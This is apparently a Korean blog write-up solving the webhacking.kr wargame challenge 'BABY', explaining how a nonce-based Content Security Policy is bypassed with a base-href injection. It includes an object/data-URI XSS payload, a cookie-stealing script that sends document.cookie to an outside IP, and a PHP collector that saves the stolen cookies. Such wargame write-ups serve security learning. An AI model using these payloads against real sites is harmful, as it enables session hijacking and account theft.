 ```yaml
---
title: "[webhacking.kr] Challenge BABY 문제 풀이"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - XSS
  - BABY
  - CSP
  - base-uri
  - script-src
  - nonce
  - hash
toc: true
toc_sticky: true
toc_label: "BABY 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge BABY 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
문제는 2개의 페이지로 구성되어 있습니다.
첫번째 화면은 다음 처럼 `?inject=` GET방식으로 원하는 문자열을 inject 하는 기능이 있는 페이지입니다.

![image](https://user-images.githubusercontent.com/33647663/156695592-d713cfe2-71e5-415b-a7cc-4b2d0e47ebb4.png)

그 다음은 `report.php`페이지로 사용자가 입력한 주소를 관리자가 바로 접속을 하는 기능입니다.

![image](https://user-images.githubusercontent.com/33647663/156695694-e5c4808d-ede1-4540-846f-169b553b0b59.png)

이 문제는 전형적인 **XSS**를 이용하는 문제입니다. 첫 번째 inject 페이지에서 악성 스크립트(대부분 쿠키를 탈취하는 스크립트)가 삽입되도록 inject 값을 구성하고, 두번째 페이지에서 해당 페이지에 관리자 봇이 접속하도록 하여, 악성 스크립트가 관리자 봇에서 동작하게 하면 됩니다.

# 문제 풀이
우선 inject 페이지에서 사용자의 입력값이 바로 들어가는지 또는 필터링이 있는지 확인해 봅니다.

```html
inject=<script>alert(1)</script>
```

![image](https://user-images.githubusercontent.com/33647663/156696005-93a16e2c-ffaf-44d3-b8e3-ff47543c0a5a.png)

해당 페이지의 소스코드를 보면, 다음과 같이 스크립트가 정상적으로 삽입되었지만, alert(1)구문이 실행이 되지 않습니다. 

원인을 찾기 위해서 콘솔을 띄워 보니 다음의 오류가 출력되었습니다.

![image](https://user-images.githubusercontent.com/33647663/156696124-cb5c9583-8018-49a6-beab-aa53b14477b1.png)

```md
Refused to execute inline script because it violates the following Content Security Policy directive: 
"script-src 'nonce-8U+ozHAw9t1UUZIQnkvFyQlu+Hg='". Either the 'unsafe-inline' keyword, a hash 
('sha256-bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI='), or a nonce ('nonce-...') is required to 
enable inline execution.
```

해석을 해보면, CSP 지시자인 `script-src 'nonce-8U+ozHAw9t1UUZIQnkvFyQlu+Hg=`를 위반했기 때문에 inline script가 실행되지 않은 것을 알 수 있습니다.

따라서 이번 문제는 CSP를 우회하여 script가 실행되도록 해야 합니다.

뒤에 붙은 추가적인 에러 내용을 우선 짚고 넘어가 보겠습니다. 다음의 설정을 하여 문제를 해결할 수 있다고 합니다.

1. `unsafe-inline` 키워드를 사용
2. hash ('sha256-bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI=')
3. nonce 값 넣기

우선 1번의 내용은 서버 측에서 CSP 정책을 설정할 때, unsafe-inline 지시자를 추가하여, 지금처럼 inline script가 실행되는 것을 허용하라는 의미입니다. 현재 클라이언트(공격자) 입장에서 지시자를 바꿀 수 없기 때문에 가능하지 않습니다.

2번 내용도 서버에서 설정을 하는 내용이며 CSP 정책을 설정할 때, 해시값을 넣어주는 것입니다. 위의 나온 해시값은 제가 입력한 스크립트(`<script>alert(1)</script>`)의 해시 값입니다. 이 개념은 서버측에서 스크립트에 대한 해시를 사전에 등록하여 정상적인 스크립트만 화이트리스트 방식으로 허용하는 것으로 생각하면 됩니다. 물론 해당 내용도 클라이언트에서 바꿀 수 없기 때문에 현재 문제에서는 가능하지 않습니다.

3번은 현재 서버측 CSP 지시자에 설정되어 있는 값으로, 사용자가 매번 요청할 때마다 랜덤한 nonce 값이 script에 추가되어 클라이언트에 전송됩니다. 따라서 서버공격자는 임의로 생성되는 nonce 값을 모르기 때문에 script를 실행할 수 없습니다.


현재 CSP 지시자는 다음과 같습니다. script-src에 nonce 값이 있어야만 결국에 스크립트가 작동됩니다. 

![image](https://user-images.githubusercontent.com/33647663/156748181-96f328b4-97fe-4cb5-b525-3e25aa15a93a.png)

처음에는 어떻게 이 문제를 해결해야 할 지 몰라서 다음의 CSP 설정에 대한 검사를 해주는 사이트에 문제의 url을 입력해 봤습니다.

[https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com/){:target="_blank"}

![image](https://user-images.githubusercontent.com/33647663/156748832-de03d580-da4a-4e39-af91-9ed7d7c28f26.png)

결과를 보면 2가지 위험 사항이 나옵니다.

1. object-src 지시자가 없기 때문에, Javascript가 실행가능한 plugin injection이 가능하다는 내용
2. base-uri 지시자가 없기 때문에, 공격자가 base-uri를 변경하여 상대경로로 지정한 스크립트를 공격자가 컨트롤하는 도메인 내에서 실행가능하게 할 수 있다는 내용입니다.


저는 위의 두가지 방법을 모두 시도해 봤습니다.

우선 object 를 이용하여 javascript를 실행하는 것은 다음처럼 가능합니다.

```javascript
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

코드의 내용은 `<script>alert(1)</script>`를 base64로 인코딩 하여 object 형식으로 전송한 것입니다. 이 내용이 브라우저에서 실행되면 다음과 같이 됩니다.

![image](https://user-images.githubusercontent.com/33647663/156750041-50f10d8d-c119-4cb8-9b26-d4fc0568e391.png)

하지만 위의 방법도 결국에는 object가 해석되면서 script로 실행되어서 nonce 값이 없기 때문에 동일하게 실행되지 않습니다. 이 문제에서는 사용하지 못했지만, 나중에 다른 문제에서 `<script>` 를 필터링 한다든지 하는 경우에 사용 가능한 방법 같습니다.

그 다음은 base-uri를 이용한 방법입니다.문제에서 보면 `/script.js` 파일이 상대경로로 지정되어서 서버의 base-uri/script.js 파일이 실행되고 있습니다. 

![image](https://user-images.githubusercontent.com/33647663/156750333-f9bf68aa-4fbb-4272-87f0-733b3cab1b8c.png)

base-uri를 이용한 공격은 이 base-uri 값을 공격자의 도메인으로 바꿔서 `www.hacker.com/script.js` 가 실행되도록 하는 것입니다.

base-uri를 바꾸는 방법은 다음과 같습니다. 아래의 코드가 삽입되면 서버에서 base-uri가 공격자의 도메인으로 바뀝니다. 


```html
<base href="www.hacker.com"/>
```

우선 대상 서버에서 접속할 도메인에 script.js 파일에 alert(1)을 작성해주고, inject를 해서 base-uri를 바꿔줍니다.

![image](https://user-images.githubusercontent.com/33647663/156750967-e64ca1f6-5a06-4b70-84bc-f9a4dc5f7b68.png)

```html
?inject=<base href="http://3.35.110.110/">
```

성공적으로 제 서버에 있는 `script.js` 파일이 실행되었습니다.

![image](https://user-images.githubusercontent.com/33647663/156751993-a114c2c6-c5aa-44ed-938d-64132ae4cd9c.png)

이제 script.js안에 쿠키를 탈취하기 위해서 다음과 같이 작성해 줍니다.

```js
document.location="http://3.35.110.110/xss.php?cookie="+document.cookie;
```

그리고 쿠키 값을 저장하도록 xss.php 파일을 다음과 같이 작성해 줍니다.

```php
<?php
$cookie = $_GET['cookie'];
$save_file = fopen("/var/www/html/cookie","w");
fwrite($save_file,$cookie);
fclose($save_file);
?>
```

이제 report.php 파일에 가서 다음과 같이 리포트를 하면, 관리자의 쿠키가 공격자에게 전송되어서 쿠키 탈취가 가능해 집니다.

![image](https://user-images.githubusercontent.com/33647663/156752745-f3e3378e-7b49-4722-b04b-f4fe34a39bdc.png)

![image](https://user-images.githubusercontent.com/33647663/156752781-70f3dff5-dfb7-47af-b0d4-815e44911f1b.png)



# Reference
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/base-uri
https://jdh5202.tistory.com/820